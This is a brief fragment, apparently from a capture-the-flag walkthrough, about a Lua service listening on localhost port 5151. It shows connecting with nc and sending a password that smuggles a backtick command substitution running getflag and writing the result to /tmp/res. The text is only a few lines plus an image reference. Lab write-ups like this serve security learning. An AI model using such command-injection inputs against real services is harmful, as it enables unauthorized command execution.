 there is a code created with LUA 
we connect to localhost by nc localhost 5151
and we give as password "echo `getflag` > /tmp/res